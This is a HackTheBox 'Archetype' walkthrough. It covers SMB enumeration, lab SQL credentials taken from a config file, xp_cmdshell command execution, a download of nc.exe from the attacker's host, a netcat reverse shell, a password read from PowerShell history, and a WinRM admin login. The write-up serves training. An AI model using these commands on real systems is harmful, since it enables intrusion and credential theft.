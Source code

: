 # HACKTHEBOX - Archetype

**nmap scan**: sudo nmap -v -sV -sC -oN nmap.txt $IP
```
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
........
|_SHA-1: 54e6 8e48 de5f 3fa3 c183 0641 b4d0 9080 8c15 78a2
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
......
```

Ok, let's connect to SMB on port 445:

```bash
smbclient -L $IP
# backups         Disk

# Connect to SMB share
smbclient \\\\$IP\\backups
```

**file found**: `prod.dtsConfig`
```xml
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration> 
```
**Credentials found**: `Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc`, this credential is from sql server, try using this to connect to MSSQL Server with impacket.

```bash
git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket && cd /opt/impacket
sudo docker build . -t impacket
# .....

# Using mssqlclient from impacket to connect to Microsoft SQL Server
mssqlclient -p 1433 ARCHETYPE/sql_svc:M3g4c0rp123@10.129.185.63 -windows-auth
```

**Procedures to get Reverse Shell**:
```bash
help # what procedures do you have?
enable_xp_cmdshell # xp_cmdshell for RCE
xp_cmdshell powershell curl [kali-tun0]/nc.exe -o C:\\Users\Public\nc.exe
xp_cmdshell powershell C:\\Users\Public\nc.exe -e cmd.exe [kali-tun0] 8888 # reverse-shell here!!
```

Using winPEAS to enumerate machine in order to find way to priviledge escalation
**file contain admin password found**:
```bash
powershell ./winPEAS.exe
# found: C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

**credential found**: `\\Archetype\backups /user:administrator MEGACORP_4dm1n!!`

Ok, first thing first, find user flag:
```bash
where -r c:\\ *.txt 
# found: c:\Users\sql_svc\Desktop\user.txt
type c:\Users\sql_svc\Desktop\user.txt
```

**user flag**: `HTB{3e7b102e78218e935bf3f4951feXXXXX}`

Because we don't have(don't know how to get) interactive shell so we can't supply password for `runas`(cannot one line either) cmd command!!, windows don't directly have a way to switch to another account in shell.

**Remote??**: What to do?? test windows remote port
```bash
nmap -p 3389 -v 10.129.185.63
# PORT     STATE  SERVICE
# 3389/tcp closed ms-wbt-server

nmap -v -p 5985,5986 10.129.185.63
# PORT     STATE  SERVICE
# 5986/tcp closed wsmans
# 5985/tcp open  wsman
```
yes, yes, yes, WinRM, remote management in CLI(GUI RDP port 3389)!!
```bash
evil-winrm -i 10.129.185.63 -p 5985 -u administrator -p MEGACORP_4dm1n!!
# success!!
type C:\\Users\Administrator\Desktop\root.txt
```

**root flag**: `HTB{b91ccec3305e98240082d4474b8XXXXX}`
